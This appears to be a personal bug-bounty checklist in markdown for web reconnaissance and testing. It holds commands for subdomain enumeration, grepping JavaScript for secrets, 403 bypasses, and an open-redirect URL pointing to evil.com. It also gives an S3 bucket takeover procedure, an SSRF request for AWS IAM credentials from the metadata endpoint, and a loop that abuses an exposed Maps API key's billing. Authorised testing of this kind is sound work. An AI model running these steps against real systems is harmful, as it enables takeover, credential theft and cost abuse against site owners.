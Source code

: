 ✓ ✗ ✔ ✘ ✅
For Recon : 
[ ] - Use this command under a folder named as Target
	```assetfinder --subs-only target.com >> recon.txt  
	subfinder -d target.com -silent >> recon.txt  
	amass enum -passive -d target.com >> recon.txt  
	sort -u recon.txt > final-subs.txt
	cat final-subs.txt | httpx -status-code -title -tech-detect -silent > live-subs.txt```
[ ] - Check for `robots.txt` and `sitemap.xml` for subdomains and directories
[ ] - Checking for Secrets in JS FIles
	1. Download all the JS Files present.
	2. Use the command to grep the secrets, keys and tokens : 		```
		cat js_files.txt | while read url; do curl -s $url >> all_javascript_dump.txt; done  
		grep -iE "apikey|token|secret|authorization|bearer" all_javascript_dump.txt```
[ ] - Bruteforce checking all JS Files : `ffuf -w common.txt -u https://target.com/assets/js/FUZZ`
[ ] - Always check User Agent for for Logs, it may give RFi
[ ] - Checking for 403 Forbidden : 
	[ ] - **Adding headers** (like `X-Forwarded-For`, `X-Originating-IP`)
	[ ] - **Trying HTTP methods** (`GET`, `POST`, `HEAD`, `OPTIONS`)
	[ ] - **Using URL encoding tricks** (`%2e`, `%2f`, etc.)
	[ ] - **Appending a dot (**`**.**`**) or a slash (**`**/**`**) at the end**
	[ ] - **Spoofing the Referer header** (`Referer: example.com/allowed-page`)
[ ] - Check for the parameter named `redirect` that is used to redirect the site to the internal sites and then try to pollute it like : `https://app.target.com/login?redirect=dashboard&redirect=https://evil.com`
[ ] - Required payloads to be tried once : 
	```curl https://target.com/config/settings_dev.json
	curl https://target.com/.env
	curl https://target.com/.git/config```
[ ] - Check for the Technology used in the website. If it's Wordpress then : 
	[ ]  -Try using a wp-scan with the API Key to get a full report.
	[ ] - Check the notes in INE-WAPT -> CMS Security Testing
	[ ] - 
[ ] - Check for AWS Buckets
	[ ] - Check CNAME using the command : `dig old-staging.target.com CNAME` . If the result looks like this : `old-staging.target.com.  300 IN CNAME  old-target-dev.s3-website-us-east-1.amazonaws.com.` Then use the command : `aws s3 ls s3://old-target-dev` to check for the existence of the bucket.
	If this has happened this shows that, the origin S3 bucket was gone, but is still present as the CNAME of the target. Now we can own the bucket under our account using the command : `aws s3 mb s3://old-target-dev` . Create a simple HTML Page to host the website. Upload it using the command : ```aws s3 website s3://old-target-dev --index-document index.html
	aws s3 cp index.html s3://old-target-dev/ --acl public-read```
	Then to chain it with SSRF, we can use this command by making some changes into it  : `curl -X POST http://old-staging.target.com/api/render -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role"}'`
[ ] - API Keys
	[ ] - Google Maps API Key Exposure Impact - 
		[ ] - Check with this command if we get any response or not : `curl "https://maps.googleapis.com/maps/api/geocode/json?address=Delhi&key=<exposed-key>" `      
		[ ] -  Check for High Billing Impact : 
		```for i in {1..10}; do
		curl "https://maps.googleapis.com/maps/api/geocode/json?address=New+York+$i&key=<exposed-apikey>"
		done```
		[ ] - Check for Directions API : `curl "https://maps.googleapis.com/maps/api/directions/json?origin=Delhi&destination=Mumbai&key=<exposed-apikey>"`
		 [ ] - Check for DistanceMatrix API : `curl "https://maps.googleapis.com/maps/api/distancematrix/json?origins=Delhi&destinations=Bangalore&key=<exposed-apikey>"`
		 [ ] - Check for Places API : `curl "https://maps.googleapis.com/maps/api/place/textsearch/json?query=restaurants+in+Goa&key=<exposed-apikey>"`